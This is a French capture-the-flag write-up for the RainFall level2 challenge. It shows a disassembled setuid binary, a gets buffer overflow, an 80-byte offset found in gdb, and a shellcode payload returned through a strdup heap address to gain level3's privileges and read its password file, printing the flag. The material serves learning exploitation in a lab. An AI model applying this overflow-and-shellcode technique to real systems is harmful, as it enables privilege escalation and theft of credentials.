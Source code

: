 On a un binaire avec le flag setuid
```
level2@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 level3 users 5403 Mar  6  2016 level2
```
On désassemble
```asm
level2@RainFall:~$ objdump -d intel  ./level2 -M intel
080484d4 <p>:
 80484d4:	55                   	push   ebp
 80484d5:	89 e5                	mov    ebp,esp
 80484d7:	83 ec 68             	sub    esp,0x68
 80484da:	a1 60 98 04 08       	mov    eax,ds:0x8049860
 80484df:	89 04 24             	mov    DWORD PTR [esp],eax
 80484e2:	e8 c9 fe ff ff       	call   80483b0 <fflush@plt>
 80484e7:	8d 45 b4             	lea    eax,[ebp-0x4c]
 80484ea:	89 04 24             	mov    DWORD PTR [esp],eax
 80484ed:	e8 ce fe ff ff       	call   80483c0 <gets@plt>
 80484f2:	8b 45 04             	mov    eax,DWORD PTR [ebp+0x4]
 80484f5:	89 45 f4             	mov    DWORD PTR [ebp-0xc],eax
 80484f8:	8b 45 f4             	mov    eax,DWORD PTR [ebp-0xc]
 80484fb:	25 00 00 00 b0       	and    eax,0xb0000000
 8048500:	3d 00 00 00 b0       	cmp    eax,0xb0000000
 8048505:	75 20                	jne    8048527 <p+0x53>
 8048507:	b8 20 86 04 08       	mov    eax,0x8048620
 804850c:	8b 55 f4             	mov    edx,DWORD PTR [ebp-0xc]
 804850f:	89 54 24 04          	mov    DWORD PTR [esp+0x4],edx
 8048513:	89 04 24             	mov    DWORD PTR [esp],eax
 8048516:	e8 85 fe ff ff       	call   80483a0 <printf@plt>
 804851b:	c7 04 24 01 00 00 00 	mov    DWORD PTR [esp],0x1
 8048522:	e8 a9 fe ff ff       	call   80483d0 <_exit@plt>
 8048527:	8d 45 b4             	lea    eax,[ebp-0x4c]
 804852a:	89 04 24             	mov    DWORD PTR [esp],eax
 804852d:	e8 be fe ff ff       	call   80483f0 <puts@plt>
 8048532:	8d 45 b4             	lea    eax,[ebp-0x4c]
 8048535:	89 04 24             	mov    DWORD PTR [esp],eax
 8048538:	e8 a3 fe ff ff       	call   80483e0 <strdup@plt>
 804853d:	c9                   	leave  
 804853e:	c3                   	ret    

0804853f <main>:
 804853f:	55                   	push   ebp
 8048540:	89 e5                	mov    ebp,esp
 8048542:	83 e4 f0             	and    esp,0xfffffff0
 8048545:	e8 8a ff ff ff       	call   80484d4 <p>
 804854a:	c9                   	leave  
 804854b:	c3                   	ret    
 804854c:	90                   	nop
 804854d:	90                   	nop
 804854e:	90                   	nop
 804854f:	90                   	nop
```
On remarque l'appel à **fflush**, **gets**, **puts** et **strdup**. La fonction p est intéressante. Elle est appelé par main et utilise la fonction gets dont nous savons qu'elle est vulnérable aux attaques buffer overflow.
Cependant il y a un contrôle:
```asm
 80484f8:	8b 45 f4             	mov    eax,DWORD PTR [ebp-0xc]
 80484fb:	25 00 00 00 b0       	and    eax,0xb0000000
 8048500:	3d 00 00 00 b0       	cmp    eax,0xb0000000
 8048505:	75 20                	jne    8048527 <p+0x53>
```
Il semble vérifier si **eax** contient une adresse appartenant à la plage 0xb0000000 - 0xbfffffff, qui correspond à la plage des adresses du Kernel ou de la Stack.
Étant donné qu'il n'y a pas de fonction cachée avec un appel à **system** comme dans **level1**, nous devrons injecter la nôtre.
Nous allons d'abord essayer de détourner le registre de retour **eax** pour exploiter la vulnérabilité de **gets**. L'adresse de retour sera celle du buffer de **gets**, et le buffer contiendra du **shellcode**.
Nous utilisons la même tactique que pour **level1** afin de déterminer l'offset :
```
level2@RainFall:~$ python /tmp/pattern3.py
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
level2@RainFall:~$ gdb -q ./level2
Reading symbols from /home/user/level2/level2...(no debugging symbols found)...done.
(gdb) b main
Breakpoint 1 at 0x8048542
(gdb) b p
Breakpoint 2 at 0x80484da
(gdb) r
Starting program: /home/user/level2/level2

Breakpoint 1, 0x08048542 in main ()
(gdb) s
Single stepping until exit from function main,
which has no line number information.

Breakpoint 2, 0x080484da in p ()
(gdb) disas main
Dump of assembler code for function main:
   0x0804853f <+0>:     push   %ebp
   0x08048540 <+1>:     mov    %esp,%ebp
   0x08048542 <+3>:     and    $0xfffffff0,%esp
   0x08048545 <+6>:     call   0x80484d4 <p>
   0x0804854a <+11>:    leave
   0x0804854b <+12>:    ret
End of assembler dump.
(gdb) b *0x0804854b
Breakpoint 3 at 0x804854b
(gdb) c
Continuing.
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0A6Ac72Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A

Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? ()
(gdb) quit
A debugging session is active.

        Inferior 1 [process 12242] will be killed.

Quit anyway? (y or n) y
level2@RainFall:~$ python /tmp/pattern3.py > /tmp/2.txt
level2@RainFall:~$ python /tmp/pattern3.py /tmp/2.txt 0x37634136
offset found at: 80
```
On a trouvé un offset à 80 octets. Essayons d'injecter le **shellcode** à l'adresse de retour:
```
level2@RainFall:~$ gdb -q ./level2
Reading symbols from /home/user/level2/level2...(no debugging symbols found)...done.
(gdb) b main
Breakpoint 1 at 0x8048542
(gdb) b p
Breakpoint 2 at 0x80484da
(gdb) r
Starting program: /home/user/level2/level2

Breakpoint 1, 0x08048542 in main ()
(gdb) s
Single stepping until exit from function main,
which has no line number information.

Breakpoint 2, 0x080484da in p ()
(gdb) disas p
Dump of assembler code for function p:
   0x080484d4 <+0>:     push   %ebp
   0x080484d5 <+1>:     mov    %esp,%ebp
   0x080484d7 <+3>:     sub    $0x68,%esp
=> 0x080484da <+6>:     mov    0x8049860,%eax
   0x080484df <+11>:    mov    %eax,(%esp)
   0x080484e2 <+14>:    call   0x80483b0 <fflush@plt>
   0x080484e7 <+19>:    lea    -0x4c(%ebp),%eax
   0x080484ea <+22>:    mov    %eax,(%esp)
   0x080484ed <+25>:    call   0x80483c0 <gets@plt>
   0x080484f2 <+30>:    mov    0x4(%ebp),%eax
   0x080484f5 <+33>:    mov    %eax,-0xc(%ebp)
   0x080484f8 <+36>:    mov    -0xc(%ebp),%eax
   0x080484fb <+39>:    and    $0xb0000000,%eax
   0x08048500 <+44>:    cmp    $0xb0000000,%eax
   0x08048505 <+49>:    jne    0x8048527 <p+83>
   0x08048507 <+51>:    mov    $0x8048620,%eax
   0x0804850c <+56>:    mov    -0xc(%ebp),%edx
   0x0804850f <+59>:    mov    %edx,0x4(%esp)
   0x08048513 <+63>:    mov    %eax,(%esp)
   0x08048516 <+66>:    call   0x80483a0 <printf@plt>
   0x0804851b <+71>:    movl   $0x1,(%esp)
   0x08048522 <+78>:    call   0x80483d0 <_exit@plt>
   0x08048527 <+83>:    lea    -0x4c(%ebp),%eax
   0x0804852a <+86>:    mov    %eax,(%esp)
   0x0804852d <+89>:    call   0x80483f0 <puts@plt>
   0x08048532 <+94>:    lea    -0x4c(%ebp),%eax
   0x08048535 <+97>:    mov    %eax,(%esp)
   0x08048538 <+100>:   call   0x80483e0 <strdup@plt>
   0x0804853d <+105>:   leave
   0x0804853e <+106>:   ret
End of assembler dump.
```
On veut le buffer de retour, donc on met un break point après l'appel a **gets**: 0x080484f2 
```
(gdb) b *0x080484f2
Breakpoint 3 at 0x80484f2
(gdb) s
Single stepping until exit from function p,
which has no line number information.
aaaaaaa

Breakpoint 3, 0x080484f2 in p ()
(gdb) i r
eax            0xbffff6dc       -1073744164
ecx            0xb7fd28c4       -1208145724
edx            0xbffff6dc       -1073744164
ebx            0xb7fd0ff4       -1208152076
esp            0xbffff6c0       0xbffff6c0
ebp            0xbffff728       0xbffff728
esi            0x0      0
edi            0x0      0
eip            0x80484f2        0x80484f2 <p+30>
eflags         0x200282 [ SF IF ID ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51
```
Dans eax le buffer est à 0xbffff6dc, essayond 'injecter ici.
Le shellcode fait 21 octets, la limite est de 80, donc le payload est constitué de 21 octets + 59 octets random + 4 octets pour l'adresse, soit 80 octets au total.
```
level2@RainFall:~$ python /tmp/exploit3.py  0xbffff6dc 59
crafting payload...
done:
/tmp/payload_level2
level2@RainFall:~$ cat /tmp/payload_level2 - | ./level2

(0xbffff6dc)

```
Cela a échoué parce que nous ne pouvons pas écrire sur la Stack, mais sur la Heap, cela semble fonctionner. strdup renvoie l'adresse suivante :
```
level2@RainFall:~$ ltrace ./level2
__libc_start_main(0x804853f, 1, 0xbffff7f4, 0x8048550, 0x80485c0 <unfinished ...>
fflush(0xb7fd1a20)                       = 0
gets(0xbffff6fc, 0, 0, 0xb7e5ec73, 0x80482b5
TEST!
)                                        = 0xbffff6fc
puts("TEST!"
TEST!
)                                        = 6
strdup("TEST!")                          = 0x0804a008
+++ exited (status 8) +++
```
Nous réessayons avec cette adresse allouée par **malloc**:
```
level2@RainFall:~$ python /tmp/exploit3.py  0x0804a008 59
crafting payload...
done:
/tmp/payload_level2
level2@RainFall:~$ cat /tmp/payload_level2 - | ./level2

j
 X�Rh//shh/bin��1�̀AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�
id
uid=2021(level2) gid=2021(level2) euid=2022(level3) egid=100(users) groups=2022(level3),100(users),2021(level2)
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```

Flag!
